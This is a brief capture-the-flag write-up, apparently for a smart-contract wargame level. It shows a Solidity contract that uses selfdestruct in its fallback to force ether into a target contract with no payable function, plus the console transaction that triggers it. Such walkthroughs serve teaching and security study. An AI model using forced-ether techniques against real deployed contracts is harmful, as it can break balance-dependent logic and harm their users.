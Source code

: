 one way to hack this and send eth is to `selfdestruct` another contract holding some eth with the address of the target contract [1].

```
pragma solidity ^0.8.0;

contract HackForce {
    fallback() external payable {
        address payable instance = payable(<instance address>);
        selfdestruct(instance);
    }
}
```

Then call this contract with some value:


```
sendTransaction({from: player, to: '<contract address>', value: 1})
```

[1] https://ethereum.stackexchange.com/questions/63987/can-a-contract-with-no-payable-function-have-ether/63988#63988
